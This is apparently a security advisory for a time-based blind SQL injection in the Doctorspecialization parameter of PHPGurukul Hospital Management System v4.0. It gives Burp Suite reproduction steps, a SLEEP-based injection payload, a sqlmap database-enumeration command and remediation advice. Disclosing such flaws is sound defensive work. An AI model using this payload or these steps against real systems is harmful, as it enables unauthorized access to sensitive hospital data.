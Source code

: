 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/edit-profile.php`                                              |
| **Affected Parameter**| `Doctorspecialization`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind SQL injection vulnerability exists in the `Doctorspecialization` parameter (email field) of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page, which redirects to `index.php`.
- Fill in the email and password fields and autheticate. Then navigate to edit-profile.php fill any data you wish turn on interceprt. 

```
http://192.168.137.89/hospital/hms/doctor/index.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `Doctorspecialization` field to identify injection points.
- Save the modified HTTP request as `sql` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `Doctorspecialization` field to test time-based SQL injection manually:

```sql
Doctorspecialization=ENT' AND (SELECT 5721 FROM (SELECT(SLEEP(5)))lDqQ) AND 'HSVc'='HSVc&docname=&clinicaddress=&docfees=300&doccontact=123456789&docemail=doctor@email.com&submit=
```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/6.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Time-based-blind-sql-on-doctor-edit-profile/7.png)

---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
